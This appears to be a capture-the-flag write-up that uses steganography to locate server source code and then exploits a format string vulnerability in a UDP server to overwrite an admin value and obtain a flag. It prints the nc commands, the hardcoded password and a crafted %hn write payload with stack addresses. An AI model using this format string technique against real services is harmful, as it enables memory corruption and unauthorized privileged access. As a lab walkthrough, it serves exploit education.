 ## Step 1: Steganography
First, we need to retrieve information from the "pict.jpg" using the outguess steganography function:
```bash
outguess -er kuraq_case/pict.jpg output1
```
Next, wget the obtained website to download the client and client_slave source code:
```bash 
wget -O output2 localhost:port  #(the port will be in output1)
```
here we need to find more information about the src code the output2 will contains a html page that cocontains information about the src code path 
```bash
cat output2 | grep backups-
```
You will find a port, for example, "backups-18184" in my case:

```bash
wget localhost:port/backups-18184 -> ca crée backups-18184
wget localhost:port/backups-18184/server.c 
wget localhost:port/backups-18184/server_slave.c
```

Alternatively, if the steps fail, the source code is provided in the directory.




after obtaining the source codes you need to copy and paste them in you local machine to compile them manually and see what you can do with them to hack the backland 

## Step 2: Compilation and Analysis
Firstly, create a folder in the same directory as "server.c" and "server_slave.c" to fulfill a requirement.

For this challenge, it's recommended to download gdb peda as it's useful here.

Start by checking the port where the server will listen. In my example, I found the port to be 38363.

Using the terminal (Ubuntu or WSL):
```bash
sudo gdb server 
r `pwd` 38363 
```
open another terminal and start to talk with the server xD 
example 
```bash
echo -ne Hello server |nc -u 127.0.0.1 38363
```
The source code mentions that the user needs to input a password. Fortunately, the password is revealed in the source code: "ZTI4ZmM1YjA0OTFhCg". Let's try in terminal 2:
```bash
echo -ne ZTI4ZmM1YjA0OTFhCg |nc -u 127.0.0.1 38363
```
Now we can write anything to the stack.

The "server_slave" code mentions that if "admin->val == 0xDEADBEEF", then the user will get privileged info. The purpose now is to change this value from its initial value of "0xCAFED00D" without affecting "admin->ttag" and "admin->btag," which need to remain as 0 to pass. This is a format string vulnerability.

Using this article, you can learn how to write anything wherever you want if you know the address: https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack

Using gdb, try to identify the location of "0xCAFED00D" and attempt to change this value to "0xDEADBEEF".

I crafted an input to change this value: \x44\xd3\xff\xff\x46\xd3\xff\xff%48871x%21$hn%9199x%22$hn
I changed the client.c to do that thanks to the article and I made a fake private file that contains a fake flag and it works 

## Step3: Deploying the Attack
Now we need to deploy this attack on the challenge instance.

First, find the address offset between the challenge machine and the real machine.

On the real machine, find a random address using the format string vulnerability:

In terminal one:
```bash
sudo ./server `pwd` 38363
```

In terminal two: 

```bash

echo -ne ZTI4ZmM1YjA0OTFhCg |nc -u 127.0.0.1 38363
echo -ne %p |nc -u 127.0.0.1 38363  #to see an address from the stack 
```

memorize the address 
e.g: 0xff9e5900
Now go to the challenge machine 

do the same thing 
```bash
echo -ne ZTI4ZmM1YjA0OTFhCg |nc -u 127.0.0.1 38363
echo -ne %p |nc -u 127.0.0.1 38363  #to see an address from the stack 
```

memorize the address 
e.g : 0xff9e599d

compute the offset: 
0xff9e599d-0xff9e5900= 9d 


add this offset to all addresses and update the client.c compite it and run it in the challenge machine and you will obtain your flag !!!!


